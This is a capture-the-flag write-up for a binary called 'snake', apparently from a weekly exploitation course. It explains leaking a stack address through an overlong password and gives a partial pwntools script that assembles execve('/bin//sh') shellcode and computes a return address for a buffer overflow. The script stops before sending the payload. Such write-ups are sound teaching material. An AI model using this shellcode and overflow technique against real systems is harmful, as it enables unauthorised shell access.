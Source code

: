 ## snake

---

FLAG{REDACTED}

---

_ASLR? PIE? Fear not, for Buffer overflows, and shellcode are here to the rescue_

1. Like the challenges from previous weeks, the idea was to pop a shell using shellcode and a buffer overflow.
2. The only kink in the process, was that we couldn't simply look at the disassembly to find the address of the buffer.
3. In that case, all we needed was to leak an address on the stack, because the offset to the buffer from a value on the stack would be predictable.
4. The pointer comes in the form of debugging information leaked when the password length is greated than the size of the buffer (0x50)

How the code works:

1. Leak an address by entering excess characters into the password field.
2. Put shellcode to pop a shell in the buffer. Pad with nops.
   1. The size of the buffer is roughly 0x16 bytes, but there are 0x36 bytes until the return address is overwritten. Free real estate!
3. Figuring out the offset to a position in the buffer (0x9e), we overwrite the return address with the calculated address to somewhere in our buffer
4. ???
5. Profit

```
#!/usr/bin/python3

from pwn import *

#p = process('./snake')
p = remote('plsdonthaq.me', 4002)

p.sendlineafter('> ', '3')
p.sendlineafter('passwd:', 'A'*0x50)

p.readuntil('offset ')
ptr = int(p.readuntil('\n', drop=True).decode(), 16)

# chuck a shell
code = asm('''

sub esp, 0x50

push 0
push {}
push {}

mov eax, 0xb
mov ebx, esp
mov ecx, 0
mov edx, 0
mov esi, 0

int 0x80

'''.format(u32('//sh'), u32('/bin')))

nops = asm('nop') * (0x36 - len(code))
ret = ptr - 0x9e

```